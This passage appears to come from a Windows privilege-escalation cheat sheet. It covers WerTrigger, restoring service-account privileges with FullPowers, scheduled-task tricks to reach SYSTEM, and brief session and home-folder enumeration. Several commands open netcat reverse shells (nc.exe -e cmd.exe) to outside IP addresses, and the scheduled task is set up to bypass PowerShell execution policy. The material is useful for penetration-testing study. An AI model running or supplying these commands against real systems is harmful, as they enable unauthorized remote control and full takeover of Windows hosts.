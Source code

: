 ```bat
# 2. Place **Report.wer** file and **WerTrigger.exe** in a same directory.
# 3. Run **WerTrigger.exe**.
wertrigger.exe
## input you command
c:/xampp/htdocs/uploads/nc.exe 192.168.118.23 4444 -e cmd.exe

```

#### local servie to System
+ local service/net service account have the defualt privilege, including **SeAssignPrimaryToken, SeImpersonate**
+ use fullpowers to recovering the default privilege, [fullpowers git](https://github.com/itm4n/FullPowers)
+ or create schduled task to get default privilge
+ exploit **SeAssignPrimaryToken, SeImpersonate**

```bat
whoami 
nt authority\local service

# create scheduled task to get default privilege
$TaskAction = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-Exec Bypass -Command `"C:\wamp\www\nc.exe 192.168.118.23 4444 -e cmd.exe`""
## or 
$TaskAction = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-Exec Bypass -Command c:\shell.exe"

## register task
Register-ScheduledTask -Action $TaskAction -TaskName "GrantPerm"

## start task
Start-ScheduledTask -TaskName "GrantPerm"

# fullpowers
fullpowers.exe
FullPowers -c "powershell -ep Bypass"
FullPowers -c "C:\TOOLS\nc64.exe 1.2.3.4 1337 -e cmd" -z
```

### Logon Users/Sessions

```bat
# 当前会话
qwinsta

# 当前sessions
klist sessions
```

### Home Folders

```bat
dir c:\users
Get-ChildItem C:\users
```
